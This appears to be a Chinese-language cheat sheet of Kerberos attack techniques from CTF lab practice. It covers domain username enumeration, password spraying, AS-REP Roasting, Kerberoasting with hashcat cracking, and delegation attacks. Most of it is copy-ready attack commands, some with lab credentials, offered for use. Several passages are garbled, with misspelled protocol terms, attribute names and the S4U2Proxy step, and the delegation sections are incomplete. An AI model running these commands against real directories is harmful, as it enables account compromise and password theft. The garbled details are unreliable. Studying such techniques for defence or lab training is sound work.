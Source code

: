 # Kerberos

kerberos使用TCP/UDP 88端口进行认证，使用TCP/UDP 464端口进行密码重设。



## 域内用户名枚举

Kerberos协议的AS-REQ阶段，请求包中cname是用户名，当用户状态是用户存在且启用、用户存在且禁用、用户不存在的时候，AS-REP包各不相同。

使用工具：kerbrute或者msf的`auxiliary/gather/kerberos_enumusers`模块。

```shell
./kerbrute_darwin_amd64 userenum --dc 10.10.10.175 /Users/feng/many-ctf/SecLists/Usernames/xato-net-10-million-usernames.txt -d egotistical-bank.local
```



可以拿username-anarchy工具来制作字典：

```shell
feng at fengs-MacBook-Pro.local in [~/ctftools/username-anarchy]  on git:master ✗  d5e653f "updated README"
12:10:27 › ./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt
```





## 域内密码喷洒

密码喷洒是用固定的密码去爆破用户名。一般和域内用户名枚举一起使用。

```shell
./kerbrute_darwin_amd64 passwordspray --dc 10.10.10.169 -d megabank.local user.txt 'Welcome123!'
```

但是kerbrute是针对kerberos协议的，遇到其他协议需要用crackmapexec。



## AS-REP Roasting

AS-REP Roasting 是一种对用户账户进行离线爆破的攻击方式。但是该攻击方式使用上比较受限，因为其**需要用户账户设置“不要求 Kerberos 预身份验证”选项，而该选项默认是没有勾选的**。Kerberos 项身份验证发生在 Kerberos 身份验证的第一阶段 (AS_ REQ &AS_REP)，它的主要作用是防止密码离线爆破。默认情況下，预身份验证是开启的，KDC会记录密码错误次数，防止在线爆破。
当关用了预身份验证后，攻击者可以使用指定用户向域控制器的 Kerberos 88 端口请求票据，**此时城控不会进行任何验证就將TGT 和该用户 Fash 加密的 Iogin Session Key返回**。
因此，攻击者就可以对获取到的用户 Hash 加密的 Loein Sesion Kcey进行离线破得，如果宇典够强大，则可能破解得到该指定用户的明文密码。

```shell
GetNPUsers.py -dc-ip 10.10.10.161 htb.local/svc-alfresco -request
```

```shell
python3.10 GetNPUsers.py -dc-ip 10.10.10.175 egotistical-bank.local/ -usersfile ~/ctftools/username-anarchy/unames.txt
```

然后拿hashcat爆破：

```shell
hashcat -m 18200 hash.txt /Users/feng/many-ctf/rockyou.txt --force
```

需要注意的是AS-REP Roasting的时候hashcat的-m是18200，其他的时候不是。



## Kerberoasting

这个ticket用于AP_REQ的认证。其中里面的enc_part是加密的，用户不可读取里面的内容。在AS_REQ请求里面是，是使用krbtgt的hash进行加密的，而在TGS_REQ里面是使用要请求的服务的hash加密的。因此如果我们拥有服务的hash就可以自己制作一个ticket，既白银票据。.正因为是使用要请求的服务的hash加密的，所以我们可以通过爆破enc_part获得该服务的hash。



```shell
python3.10 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18
```



```shell
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /outfile:hash.txt
```



得到hash后拿hashcat爆破：

```shell
hashcat -m 13100 hash.txt /Users/feng/many-ctf/rockyou.txt --force
```



## 非约束性委派攻击



## 约束性委派攻击

从网络攻击的角度来看，如果攻击者控制了服务1的账户，并且服务1配置丁到域控的CIFS 的约束性委派，则可以利用服务1以任意用户权限(包括域管理员）访问域控的CIFS， 即相当于控制了域控。

### 基于资源的约束性委派攻击

1. 拥有服务 A 的权限，这里只需要拥有一个普通的域账户权限即可，因为普通的域账户默认可以创建最多10个机器账户，机器账户可以作为服务账户使用。
2. 拥有在服务 B上配置允许服务A 的基于资源的约束性委派的权限，即拥有修改服务B的msDS-AllowedToActOuBsehalfOfotherldentity 属性的权限。机器账户自身和创建机器账户的用户即拥有该权限。

## Kerberos Bronze Bit漏洞

对于约束性委派和基于资源的约束性委派，最后不返回票据的原因各不相同。但是，只要 rorwardable 标志位为 1，则约束性委派和基于资源的约束性委派在 S402Proxy 这一步均能获得票据。因此，我们后续的攻击就能成功。
